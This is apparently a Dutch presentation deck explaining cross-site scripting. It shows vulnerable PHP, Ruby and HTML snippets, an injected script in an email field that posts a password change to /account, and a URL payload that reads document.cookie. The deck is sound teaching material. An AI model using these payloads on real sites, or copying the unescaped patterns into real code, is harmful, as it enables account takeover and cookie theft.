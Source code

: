 !SLIDE image
# Werking #

![rendering](rendering.jpg)

    @@@php
    <i><?php print $email ?></i>

!SLIDE code

    @@@html
    ber@berk.es</i><script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/account", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("password=compromised");
    </script><i>

!SLIDE bullets incremental
# Werking #

* Injecteer scripts of andere ongewenste content.

!SLIDE center
<iframe width="960" height="720" src="//www.youtube.com/embed/dQw4w9WgXcQ?autoplay=0" frameborder="0" allowfullscreen></iframe>

!SLIDE bullets incremental
# Soorten #

* Reflected, None-persistent XSS
* Stored, Persistent XSS
* DOM based XSS
* mXSS of mutation XSS

!SLIDE
# Reflected #

    @@@ruby
    "Please check the" +
    "confirmation at %{email}"

!SLIDE
# Stored #

    @@@ruby
    msg = "Users with changed emails:<br>"
    User.updated(2.days.ago).each do |user|
      msg += "* %{user.email}<br>"
    end

!SLIDE
# DOM based #

    @@@HTML
    <select><script>
    document.write("<OPTION value=1>"
      +document.location.href.substring(
        document.location.href.indexOf("default=")
      +8)+"</OPTION>");
    document.write("<OPTION value=2>English</OPTION>");
    </script></select>

Normaal aangeroepen met: `http://www.some.site/page.html?default=French`

Nu aangeroepen met: `http://www.some.site/page.html?default=<script>alert(document.cookie)</script>`

!SLIDE image
# mXSS mutation XSS #
![Einde der tijden](laatste_oordeel.jpg)

!SLIDE bullets incremental
# mXSS mutation XSS #
* Gebruikt innerHTML om ge-escapete code te ont-escapen.
* Alle Browserbouwers gingen al de mist in.
* Extra voorzichtig met WYSIWYG-editors, SVG, MathML en CDATA.
